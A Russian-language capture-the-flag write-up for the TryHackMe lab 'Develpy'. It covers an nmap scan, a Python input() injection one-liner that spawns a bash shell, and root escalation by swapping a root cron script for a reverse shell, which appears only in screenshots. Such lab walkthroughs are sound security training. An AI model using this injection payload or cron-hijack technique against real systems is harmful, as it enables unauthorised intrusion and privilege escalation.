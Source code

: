 # Develpy

:white_check_mark:  [**nc**](#nc)

:white_check_mark: [**python**](#python)

:white_check_mark: [**crontab**](#crontab)
___

## Разведка
Сканируем ip командой:
```
nmap -vv -p 1-10000 develpy.thm
```

```
PORT      STATE SERVICE          REASON                                                                  
22/tcp    open  ssh              syn-ack ttl 63                                                          
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63                                                          
                                                                                                         
Read data files from: /usr/bin/../share/nmap                                                         
```

<a name="nc"><h2>Получение оболочки</h2></a>

<a name="python"></a>

Взглянем на порт 10000. Попробуем подключиться по **nc**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/1.png)

Мы имеем дело с программой на python и для ввода используется функция "**input()**". Можем попытаться запустить системную команду.

```
__import__("os").system("bash")
```
<a name="crontab"><h2>Повышение привилегий</h2></a>

Посмотрим что находится в crontab.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/2.png)

Файл root.sh запускается с правами root. Удаляем файл root.sh и записываем в новый обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/3.png)

Немного ждем и получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/develpy/4.png)
